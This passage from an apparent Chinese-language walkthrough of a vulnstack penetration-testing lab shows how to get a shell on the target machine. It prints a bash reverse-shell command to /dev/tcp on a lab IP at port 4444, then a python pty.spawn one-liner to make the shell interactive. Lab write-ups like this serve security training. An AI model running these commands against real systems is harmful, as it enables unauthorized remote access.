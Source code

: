 

尝试反弹目标系统shell，kali开启ncj监听本机的4444端口，反弹成功，获取到一个非交互性的shell

```
/bin/bash -i >& /dev/tcp/192.168.47.183/4444 0>&1
```

![image-20231204165916534](vulnstack靶场系列四/image-20231204165916534.png)

![image-20231204165950915](vulnstack靶场系列四/image-20231204165950915.png)

​		

发现目标系统的python版本为2.7

![image-20231204170937740](vulnstack靶场系列四/image-20231204170937740.png)	



执行如下命令获取一个交互性相对良好的shell

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

![image-20231204173551747](vulnstack靶场系列四/image-20231204173551747.png)	
